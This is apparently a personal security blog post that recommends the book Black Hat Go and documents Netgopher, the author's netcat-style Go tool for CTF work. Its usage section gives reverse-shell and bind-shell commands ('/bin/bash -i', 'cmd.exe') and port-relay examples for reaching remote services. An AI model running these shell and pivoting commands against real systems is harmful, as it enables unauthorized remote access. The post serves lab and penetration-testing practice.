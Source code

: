 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```



# What's all this about?

This week, I dug out my copy of Black Hat Go, a book I've been getting roudn to reading for an age, and I loved the first couple of chapters so much I thought I'd recommend it. 

{% include feature_row id="feature_row1" type="left" %}

NOTE - The very excellent animated gopher is from [egonelbre](https://github.com/egonelbre), who has made these public, nice!

## How will this change my life?

If you're into your security, particularly form an offensive side, using Go will add a really nice new skillset to your toolbox. Go will let you build tools (simple or complex, up to you!) that compile to a single 'blob', run fast and  manage lot's of the hard programming (concurrency included) for you.  

I'd suggest that working witih Go like this is probably most useful for people who are comfortable working with Bash or maybe a little bit of Python, but don't let that hold you back if you're keen.  I've gone through the first chapter or two so far and in just a few evenings, the book has guided me through some really nice simple TCP tooling. 

# Netgopher

This is where Netgopher comes in; this is my super simple implementation of Netcat, built using Go. Most of the Netcat 'extra features' are not included, but I've kept it to those things I find most useful during a CTF, TCP connections, execution and port relays. 

![Example gif of relay usage](assets/images/posts/netgopher/relay.gif)

You can get NetGopher as set out below; the rest of this post is actually en excerpt from the README on the [Github Repo](https://github.com/blackfell/ng){:target="_blank"}

# Installation

You can **but probably shouldn't**  get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well this will only install ng in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. 

I wrote this version to use during CTFs meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/conneciton pair:

![Listener & connect example image](assets/images/posts/netgopher/basic.gif)

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
# Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# Feedback?
Issues, pulls, emails, tweets all welcome!
